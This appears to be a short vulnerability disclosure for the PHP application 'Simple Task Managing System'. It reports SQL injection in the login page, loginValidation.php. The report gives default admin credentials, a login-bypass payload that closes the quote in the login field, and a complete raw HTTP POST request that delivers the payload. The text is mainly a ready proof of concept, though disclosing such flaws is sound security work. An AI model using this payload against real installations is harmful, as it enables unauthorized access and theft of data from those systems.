 # Simple Task Managing System - SQL injection

username:admin password:admin ----> {ip}/loginValidation.php

Supplier： https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html

/loginValidation.php has SQL injection

Payload: login=admin%27and%27q%27%3D%27q&password=admin

SQL injection because login can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/Snipaste_2022-09-01_10-41-42.png)

```sql
POST /cve/Task%20Managing%20System%20in%20PHP/loginValidation.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 46
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=34a9idaoj7m7miduqt31hupisn
Origin: http://localhost
Referer: http://localhost/cve/Task%20Managing%20System%20in%20PHP/login.php
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

login=admin%27and%27q%27%3D%27q&password=admin
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/Snipaste_2022-09-01_10-39-13.png)